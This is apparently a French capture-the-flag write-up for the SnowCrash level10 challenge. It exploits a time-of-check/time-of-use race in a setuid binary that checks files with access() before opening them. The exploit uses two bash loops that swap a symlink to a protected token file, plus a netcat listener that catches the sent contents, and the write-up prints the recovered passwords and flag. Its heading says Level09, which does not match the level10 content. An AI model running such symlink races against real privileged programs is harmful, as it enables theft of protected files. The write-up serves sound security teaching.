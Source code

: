# Level09

Sur le home de l'utilisateur level10, à l'instar des level08 et level09 nous y trouvons un fichier token et un exécutable portant le nom de l'utilisateur.  
Effectuons des tests :
```sh
level10@SnowCrash:~$ ls
level10  token
level10@SnowCrash:~$ ./level10 token
./level10 file host
	sends file to host if you have access to it
```
L'usage nous indique que l'executable envoi un fichier si nous avons les droits dessus.
avec `strings level10` nous trouvons le port sur lequel le fichier est envoyé, ainsi que le programme utilise `open` et `access`: 
```sh
Connecting to %s:6969 ..
open
access
```
Nous allons utiliser cette faille d'access afin de récupérer le token :  
`Avertissement : Utiliser access() pour vérifier si un utilisateur a le droit, par exemple, d'ouvrir un fichier avant d'effectuer réellement l'ouverture avec open(2), risque de créer un trou de sécurité.
En effet, l'utilisateur peut exploiter le petit intervalle de temps entre la vérification et l'accès pour modifier le fichier (via un lien symbolique en général).
Pour cette raison, l'utilisation de cet appel système devrait être évitée.` (man access)  

Nous allons utiliser les scripts suivants : 
```bash
#!/bin/bash
while true;
do
	~/level10 /tmp/link 127.0.0.1
done
```
Qui va sans cesse essayer d'envoyer le fichier tmp/link sur le localhost  
et :  
```bash
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```
Qui lui va supprimer le fichier /tmp/link, le créer et faire un lien symbolique sur le fichier token du home
Il nous reste qu'à écouter les transfert via `nc`  
```bash
level10@SnowCrash:~$ nc -lk 6969
```
l'option l pour l'ecoute et l'option k pour garder la connection.
Nous obtenons le token :  
```bash
.*( )*.
woupa2yuojeeaaed06riuj63c
```
Il nous reste plus qu'à récuperer le flag : 
```bash 
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
||<h3 align="center"> Documentation </h3>|
|:--------:|:---------:|
|access|http://manpagesfr.free.fr/man/man2/access.2.html|
|nc|https://howto.lintel.in/listen-arbitrary-port-print-data-coming-using-netcat/|
